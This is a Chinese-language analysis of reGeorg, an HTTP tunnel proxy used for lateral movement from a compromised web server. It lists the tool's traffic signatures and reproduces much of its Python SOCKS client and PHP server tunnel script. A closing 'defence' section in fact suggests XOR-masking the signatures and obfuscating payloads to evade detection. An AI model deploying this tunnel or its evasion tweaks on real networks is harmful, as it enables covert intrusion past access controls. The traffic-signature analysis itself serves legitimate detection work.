

# c2服务器隧道代理分析

## 介绍

### 隧道代理技术

代理是委托一个人找目标，隧道是通过特定的通讯方法，直接找到这个目标；代理最主要的特征是，无论代理后面挂了几个设备，代理对外只表现为一个设备。外部设备以为自己是在和代理交互，而不能感知代理内部的设备。隧道是一个虚拟的路径，用来使到达隧道入口的数据，穿越原本不方便穿越的网络，到达另一侧出口。

代理和隧道概念上虽然有区别，但它们的区别不是本质冲突，可以同时实现，也就是隧道代理，即通过隧道进行代理。

### 适用场景

一般用在服务器已被getshell，想横向渗透但是因为ACL策略较为严格，只允许某个别协议进出（如http协议），无法直接将端口转发或者反弹shell。此时可**利用允许通行的网络协议构建相关代理隧道，使其成为跳板机**。

这里以工具`reGeorg`为例进行分析。

## reGeorg

### 工作原理流程

reGeorg工具便是利用http协议构建了一个简易的代理隧道，从而实现我们的目的。



### 流量特征总结

+ 原生代码中客户端与服务端连接时会先发送一个`GET`请求确认服务端运行是否正常，服务端服务正常则会返回字符串`Georg says, 'All seems fine`告知客户端一切就绪。

+ 建立连接之后，客户端仅代理socks的流量，且仅限采用`POST`请求对服务端进行访问。
  + 原生代码中，根据此请求对应的功能请求会带有`GET`和`POST`参数，形式如：`xxx?cmd=xx`、`X-CMD=xx`
  + 原生代码中服务端的响应会根据请求中的内容是否成功实现带有如下关键字:`X-STATUS`、`X-ERROR`(仅当遭遇错误失败时返回`X-ERROR`)
  + 当`cmd|X-CMD`对应的功能为`connect`时，会通过`target`和`port`两个`GET`关键字与`X-TARGET`和`X-PORT`两个`POST`关键字传递要请求的ip和端口
  + 当`cmd|X-CMD`对应的功能为`reader`时，`GET`关键字为`cmd=read`，`POST`关键字为`X-CMD=READ`
  + 当`cmd|X-CMD`对应的功能为`writer`时，`GET`关键字为`cmd=forward`，`POST`关键字为`X-CMD=FORWARD`，且此时`http`流量报文中`header`里 `Content-Type`属性为且仅为`application/octet-stream`

+ 原生代码中未对数据做任何加密或混淆操作，纯明文传输。（意味着无论是对敏感数据的访问，还是payload的发送，任何操作的数据都可以被清晰看到）

### 功能分析

#### 客户端

1. 绑定本地指定端口，端口默认情况为`8888`，起一个`SockerServer`服务。用来接收需要转发的本地流量

    ```python
        servSock = socket(AF_INET, SOCK_STREAM)
        servSock.setsockopt(SOL_SOCKET, SO_REUSEADDR, 1)
        servSock.bind((args.listen_on, args.listen_port))
        servSock.listen(1000)
        while True:
            try:
                sock, addr_info = servSock.accept()
                sock.settimeout(SOCKTIMEOUT)
                log.debug("Incomming connection")
                session(sock, args.url).start()
            except KeyboardInterrupt, ex:
                break
            except Exception, e:
                log.error(e)
        servSock.close()
    ```

2. 将流量代理到指定的本地端口
3. 询问服务端状态，查看是否可以正常提供服务。

    ```python
    def askGeorg(connectString):
        connectString = connectString
        o = urlparse(connectString)
        try:
            httpPort = o.port
        except:
            if o.scheme == "https":
                httpPort = 443
            else:
                httpPort = 80
        httpScheme = o.scheme
        httpHost = o.netloc.split(":")[0]
        httpPath = o.path
        if o.scheme == "http":
            httpScheme = urllib3.HTTPConnectionPool
        else:
            httpScheme = urllib3.HTTPSConnectionPool

        conn = httpScheme(host=httpHost, port=httpPort)
        response = conn.request("GET", httpPath)
        if response.status == 200:
            if BASICCHECKSTRING == response.data.strip():
                log.info(BASICCHECKSTRING)
                return True
        conn.close()
        return False

    if not askGeorg(args.url):
        log.info("Georg is not ready, please check url")
        exit()
    ```

4. 有流量进入后，判断是socks的哪个版本

    ```python
        def handleSocks(self, sock):
            # This is where we setup the socks connection
            ver = sock.recv(1)
            if ver == "\x05":
                return self.parseSocks5(sock)
            elif ver == "\x04":
                return self.parseSocks4(sock)
        def run(self):
            try:
                if self.handleSocks(self.pSocket):
                    ···
    ```

    获取请求的`targetIP`+`Port`

    ```python
        def parseSocks5(self, sock):
            log.debug("SocksVersion5 detected")
            nmethods, methods = (sock.recv(1), sock.recv(1))
            sock.sendall(VER + METHOD)
            ver = sock.recv(1)
            if ver == "\x02":  # this is a hack for proxychains
                ver, cmd, rsv, atyp = (sock.recv(1), sock.recv(1), sock.recv(1), sock.recv(1))
            else:
                cmd, rsv, atyp = (sock.recv(1), sock.recv(1), sock.recv(1))
            target = None
            targetPort = None
            if atyp == "\x01":  # IPv4
                # Reading 6 bytes for the IP and Port
                target = sock.recv(4)
                targetPort = sock.recv(2)
                target = "." .join([str(ord(i)) for i in target])
            elif atyp == "\x03":  # Hostname
                targetLen = ord(sock.recv(1))  # hostname length (1 byte)
                target = sock.recv(targetLen)
                targetPort = sock.recv(2)
                target = "".join([unichr(ord(i)) for i in target])
            elif atyp == "\x04":  # IPv6
                target = sock.recv(16)
                targetPort = sock.recv(2)
                tmp_addr = []
                for i in xrange(len(target) / 2):
                    tmp_addr.append(unichr(ord(target[2 * i]) * 256 + ord(target[2 * i + 1])))
                target = ":".join(tmp_addr)
            targetPort = ord(targetPort[0]) * 256 + ord(targetPort[1])
            if cmd == "\x02":  # BIND
                raise SocksCmdNotImplemented("Socks5 - BIND not implemented")
            elif cmd == "\x03":  # UDP
                raise SocksCmdNotImplemented("Socks5 - UDP not implemented")
            elif cmd == "\x01":  # CONNECT
                serverIp = target
                try:
                    serverIp = gethostbyname(target)
                except:
                    log.error("oeps")
                serverIp = "".join([chr(int(i)) for i in serverIp.split(".")])
                self.cookie = self.setupRemoteSession(target, targetPort)
                if self.cookie:
                    sock.sendall(VER + SUCCESS + "\x00" + "\x01" + serverIp + chr(targetPort / 256) + chr(targetPort % 256))
                    return True
                else:
                    sock.sendall(VER + REFUSED + "\x00" + "\x01" + serverIp + chr(targetPort / 256) + chr(targetPort % 256))
                    raise RemoteConnectionFailed("[%s:%d] Remote failed" % (target, targetPort))

            raise SocksCmdNotImplemented("Socks5 - Unknown CMD")
    ```

5. 调用功能`CONNECT`向服务端发起访问请求。参数是`tagetIP`+`Port`
如果请求成功，会将生成的`sessionID`保存下来(很重要用来保存整个服务端和Target的Socket会话状态)

    ```python
        def setupRemoteSession(self, target, port):
            headers = {"X-CMD": "CONNECT", "X-TARGET": target, "X-PORT": port}
            self.target = target
            self.port = port
            cookie = None
            conn = self.httpScheme(host=self.httpHost, port=self.httpPort)
            response = conn.urlopen('POST', self.connectString + "?cmd=connect&target=%s&port=%d" % (target, port), headers=headers, body="")
            if response.status == 200:
                status = response.getheader("x-status")
                if status == "OK":
                    cookie = response.getheader("set-cookie")
                    log.info("[%s:%d] HTTP [200]: cookie [%s]" % (self.target, self.port, cookie))
                else:
                    if response.getheader("X-ERROR") is not None:
                        log.error(response.getheader("X-ERROR"))
            else:
                log.error("[%s:%d] HTTP [%d]: [%s]" % (self.target, self.port, response.status, response.getheader("X-ERROR")))
                log.error("[%s:%d] RemoteError: %s" % (self.target, self.port, response.data))
            conn.close()
            return cookie
    ```

6. 调用功能`READ`向服务端发起读数据请求,并将读取到的数据发送给相应的本地程序。

   ```python
    def reader(self):
        conn = urllib3.PoolManager()
        while True:
            try:
                if not self.pSocket:
                    break
                data = ""
                headers = {"X-CMD": "READ", "Cookie": self.cookie, "Connection": "Keep-Alive"}
                response = conn.urlopen('POST', self.connectString + "?cmd=read", headers=headers, body="")
                data = None
                if response.status == 200:
                    status = response.getheader("x-status")
                    if status == "OK":
                        if response.getheader("set-cookie") is not None:
                            cookie = response.getheader("set-cookie")
                        data = response.data

                        try:
                            if response.getheader("server").find("Apache-Coyote/1.1") > 0:
                                data = data[:len(data) - 1]
                        except:
                            pass
                        if data is None:
                            data = ""
                    else:
                        data = None
                        log.error("[%s:%d] HTTP [%d]: Status: [%s]: Message [%s] Shutting down" % (self.target, self.port, response.status, status, response.getheader("X-ERROR")))
                else:
                    log.error("[%s:%d] HTTP [%d]: Shutting down" % (self.target, self.port, response.status))
                if data is None:
                    # Remote socket closed
                    break
                if len(data) == 0:
                    sleep(0.1)
                    continue
                transferLog.info("[%s:%d] <<<< [%d]" % (self.target, self.port, len(data)))
                self.pSocket.send(data)
            except Exception, ex:
                raise ex
        self.closeRemoteSession()
        log.debug("[%s:%d] Closing localsocket" % (self.target, self.port))
        try:
            self.pSocket.close()
        except:
            log.debug("[%s:%d] Localsocket already closed" % (self.target, self.port))
    ```

7. 本地程序接收到到读取的数据后进行自己的处理，并将自己解析处理后的响应数据放到`http`的`data`里，并将标识符设置成`FORWARD`，发送给服务端。

    ```python
    def writer(self):
        global READBUFSIZE
        conn = urllib3.PoolManager()
        while True:
            try:
                self.pSocket.settimeout(1)
                data = self.pSocket.recv(READBUFSIZE)
                if not data:
                    break
                headers = {"X-CMD": "FORWARD", "Cookie": self.cookie, "Content-Type": "application/octet-stream", "Connection": "Keep-Alive"}
                response = conn.urlopen('POST', self.connectString + "?cmd=forward", headers=headers, body=data)
                if response.status == 200:
                    status = response.getheader("x-status")
                    if status == "OK":
                        if response.getheader("set-cookie") is not None:
                            self.cookie = response.getheader("set-cookie")
                    else:
                        log.error("[%s:%d] HTTP [%d]: Status: [%s]: Message [%s] Shutting down" % (self.target, self.port, response.status, status, response.getheader("x-error")))
                        break
                else:
                    log.error("[%s:%d] HTTP [%d]: Shutting down" % (self.target, self.port, response.status))
                    break
                transferLog.info("[%s:%d] >>>> [%d]" % (self.target, self.port, len(data)))
            except timeout:
                continue
            except Exception, ex:
                raise ex
                break
        self.closeRemoteSession()
        log.debug("Closing localsocket")
        try:
            self.pSocket.close()
        except:
            log.debug("Localsocket already closed")
    ```

8. 之后会根据本地程序的操作是否结束而进入读写循环，若数据交互结束则通过`DISCONNECT`结束代理连接。

    ```python
    def closeRemoteSession(self):
        headers = {"X-CMD": "DISCONNECT", "Cookie": self.cookie}
        params = ""
        conn = self.httpScheme(host=self.httpHost, port=self.httpPort)
        response = conn.request("POST", self.httpPath + "?cmd=disconnect", params, headers)
        if response.status == 200:
            log.info("[%s:%d] Connection Terminated" % (self.target, self.port))
        conn.close()
    ```

#### 服务端

官方原生代码脚本中根据可能的服务端环境给出了多个版本的服务端脚本。这里以`PHP`脚本为例：

1. 首先设置相关功能需要的环境条件，如开启文件包含文件引用,导入socket：

    ```php
    ini_set("allow_url_fopen", true);
    ini_set("allow_url_include", true);
    dl("php_sockets.dll");
    ```

2. 接收到请求后根据`GET`类型和`POST`类型判断是否为新客户端请求询问服务端是否正常，并返回消息。

    ```php
    if ($_SERVER['REQUEST_METHOD'] === 'GET')
    {
        exit("Georg says, 'All seems fine'");
    }
    ```

3. 根据`CONNECT`请求中的`targetIP`和`port`参数与其建立`socket`连接。

    ```php
    switch($cmd){
        case "CONNECT":
            {
                $target = $headers["X-TARGET"];
                $port = (int)$headers["X-PORT"];
                $sock = socket_create(AF_INET, SOCK_STREAM, SOL_TCP);
                if ($sock === false)
                {
                    header('X-STATUS: FAIL');
                    header('X-ERROR: Failed creating socket');
                    return;
                }
                $res = @socket_connect($sock, $target, $port);
                if ($res === false)
                {
                    header('X-STATUS: FAIL');
                    header('X-ERROR: Failed connecting to target');
                    return;
                }
                socket_set_nonblock($sock);
                @session_start();
                $_SESSION["run"] = true;
                $_SESSION["writebuf"] = "";
                $_SESSION["readbuf"] = "";
                ···
    ```

4. 服务端得到客户端发送的`READ`读取指令后，读取`socket`数据。

    ```php
            case "READ":
            {
                @session_start();
                $readBuffer = $_SESSION["readbuf"];
                $_SESSION["readbuf"]="";
                $running = $_SESSION["run"];
                session_write_close();
                if ($running) {
                    header('X-STATUS: OK');
                    header("Connection: Keep-Alive");
                    echo $readBuffer;
                    return;
                } else {
                    header('X-STATUS: FAIL');
                    header('X-ERROR: RemoteSocket read filed');
                    return;
                }
            }
            break;
    ```

5. 服务器接收到`FORWARD`数据后，从客户端请求中获取到响应数据发送给前面建立好的`Socket`服务。

    ```php
        case "FORWARD":
            {
                @session_start();
                $running = $_SESSION["run"];
                session_write_close();
                if(!$running){
                    header('X-STATUS: FAIL');
                    header('X-ERROR: No more running, close now');
                    return;
                }
                header('Content-Type: application/octet-stream');
                $rawPostData = file_get_contents("php://input");
                if ($rawPostData) {
                    @session_start();
                    $_SESSION["writebuf"] .= $rawPostData;
                    session_write_close();
                    header('X-STATUS: OK');
                    header("Connection: Keep-Alive");
                    return;
                } else {
                    header('X-STATUS: FAIL');
                    header('X-ERROR: POST request read filed');
                }
            }
            break;
    ```

### 检测

由对该工具的流量特征总结我们可以知道原生版本的固定特征值，以及其工具完全建立在`http`协议下，只需要针对`http`的流量进行相关特征值的检测即可判断是否为原生版本`reGeorg`。

其次，由于该工具对代理的数据是纯明文传输。且最终的目的`IP`和`port`会被放到参数中，我们可以检测参数中是否存在连续的明文`IP`和`port`以及**可能存在的明文形式的协议格式数据或者攻击payload**来检测判断。

### 防御

首先是固定的特征值，考虑到特征值数量很少且长度不长，可以用`password`设置`randseed`的方式，**让服务端和客户端分别在本地生成相同的随机数序列，然后将特征值与随机数异或的结果作为传输数据**，即不影响传输效率，也可混淆特征值的存在。

其次，关于目标代理数据明文传输的问题，我们可以自行设置数据处理算法对其进行混淆判断即可。
也可以考虑添加脏数据的方式，不过考虑到工具的传输效率问题，不推荐使用脏数据的方式。
